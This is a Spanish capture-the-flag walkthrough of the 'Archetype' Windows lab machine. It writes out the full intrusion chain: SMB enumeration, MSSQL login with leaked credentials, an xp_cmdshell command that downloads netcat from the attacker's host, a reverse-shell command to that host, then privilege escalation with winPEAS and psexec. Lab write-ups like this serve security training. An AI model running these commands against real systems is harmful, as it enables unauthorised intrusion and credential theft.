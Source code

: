 # Archetype (Windows)

- Con nmpa se encontro lo siguiente; Por lo que podemos ver que hay una vulnerabilidad con el servicio ms-sql-s y ademas podemos aprovechar el protocolo smb como se ve mas abajo

![Untitled](images/Untitled.png)

- Por lo que podemos empezar por ver que podemos encontrar con smbclient; para epemzar procedemos a ver las listas, y ver cuales no necesitan administrador (Son las que no tienen ‘$’ en su nombre).

![Untitled](images/Untitled%201.png)

- Despues de comprobar a cual podemos entrar, entramos y vemos si existe informacion relevante. En este caso se encontro un usuario y su contraseña que podemos utilizar para hacer un ataque para la vulnerabilidad encontrada.

![Untitled](images/Untitled%202.png)

![Untitled](images/Untitled%203.png)

- Procedemos a localizar el binario ‘mssqlclient’ para poder crear una reverse sehell desde el servicio ms-sql-s de la maquina objetivo, para la cual utilizaremos los datos encontrados anteriormente.
    - La estructura del comando es el siguiente: /usr/bin/impacket-mssqlclient ARCHETYPE/sql_svc@10.129.3.27 -windows-auth
        - Ruta del binario
        - Usuario
        - IP de la maquina objetivo
        - Si la maquina es windows, se agrega
    
    ![Untitled](images/Untitled%204.png)
    
    - Lo que se procede a hacer es habilitar el cmd shell para poder comandar instrucciones. Despues de estar habilitada, se mandara una instruccion para que descargue el binario de netcat a la carpeta de descargas para despues ejecutarla y poder acceder a la consola de la maquina. El comando para que se descargue el binario es el siguiente:
        - xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget [http://10.10.14.43/nc.exe](http://10.10.14.43/nc.exe) -outfile nc.exe"
            - Donde:
            - Es el nombre que se le dara al archivo en la maquina
            - Es el Archivo que se descargara de la maquina atacante a traves de un servicio http
            - Es la ruta donde se almacenara el archivo
            - Es el comando dentro del binario para pode ejecutar instrucciones
    
    ![Untitled](images/Untitled%205.png)
    
    - Pero para poder mandar el archivo de netcat activaremos un servicio http para que pueda descargarlo con la ip del tun que se genera.
        
        ![Untitled](images/Untitled%206.png)
        
    - Ya descargado el archivo netcat, se procede a crear un listener en cualquier puerto e ejecutar el binario dentro de ese puerto para poder crear la reverse shell
    
    ![Untitled](images/Untitled%207.png)
    
    - Ya con el listener, procedemos a ejecutar el siguiente comando:
        - xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc.exe -e cmd.exe 10.10.14.43 443”
            - Donde:
            - Puerto
            - IP que se uso para levantar el servicio http
            - ejecutable del binario introducido para crear la reverse shell
        - Esto nos dara el siguiente resultado en el listener creado; lo que significa que existe una reverse shell y podemos proceder a buscar la flag
        
        ![Untitled](images/Untitled%208.png)
        
        - Para poderingresar al admin necesitamos un elevador de permisos, winPEAS nos ayudara en eso, por lo que de la misma manera que introdujimos el binario nc.exe, lo haremos igual con winPEAS. Y ya teniendolo, dentro del listener lo ejecutaremos para obtener las credenciales.
        
        ![Untitled](images/Untitled%209.png)
        
        - Obtendremos el siguiente archivo, por lo cual lo procedemos a leer y asi obtenemos las credenciales del admin
        
        ![Untitled](images/Untitled%2010.png)
        
        - Localizamos psexec, y ya con su respectiva ruta, lo ejecutamos con los datos que obtuvimos anteriormente
        
        ![Untitled](images/Untitled%2011.png)
        
        - Ya estando dentro, procedemos a buscar la flag del admin
        
        ![Untitled](images/Untitled%2012.png)
        
    
    # Flags
    
    sql_svc: 3e7b102e78218e935bf3f4951fec21a3
    
    administrator: b91ccec3305e98240082d4474b848528